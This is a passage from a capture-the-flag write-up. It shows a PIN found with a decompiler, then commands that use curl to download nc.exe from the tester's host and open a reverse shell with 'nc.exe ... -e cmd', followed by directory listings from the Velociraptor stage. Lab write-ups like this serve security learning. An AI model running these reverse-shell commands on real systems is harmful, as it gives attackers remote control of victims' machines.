 ![alt text](<../assets/image_lustrous2/7ER PIN DOTPEEK.png>)

Nice ! as we can see there is the ```PIN``` but we can also see that we need to execute command that are less than 100 characters, just download nc.exe and execute him 

```console
curl http://10.8.2.163/nc.exe -o nc.exe

.\nc.exe 10.8.2.163 9001 -e cmd
```
And we got a shell ! 

## Exploiting Velociraptor Software 

After some enumeration that i'm not gonna put in this writeup just for don't waste time, we can find this :

```powershell
PS C:\datastore> ls

Directory: C:\datastore

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          9/6/2024   8:48 AM                acl                                                                  
d-----         9/19/2024   9:48 AM                artifact_definitions                                                 
d-----          9/6/2024   8:35 AM                clients                                                              
d-----          9/6/2024   8:39 AM                client_info                                                          
d-----          9/6/2024   8:34 AM                config                                                               
d-----         9/19/2024   9:51 AM                hunts                                                                
d-----         9/19/2024   9:50 AM                hunt_index                                                           
d-----         9/19/2024   9:07 AM                logs                                                                 
d-----          9/6/2024   8:35 AM                notebooks                                                            
d-----         9/19/2024   9:49 AM                server_artifacts                                                     
d-----          9/6/2024   8:34 AM                server_artifact_logs                                                 
d-----          9/6/2024   8:44 AM                users
```
```powershell
PS C:\Program Files> ls

Directory: C:\Program Files

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          9/7/2024   5:54 AM                Amazon                                                               
d-----         8/31/2024   1:03 AM                Common Files                                                         
d-----          9/6/2024   5:39 AM                dotnet                                                               
```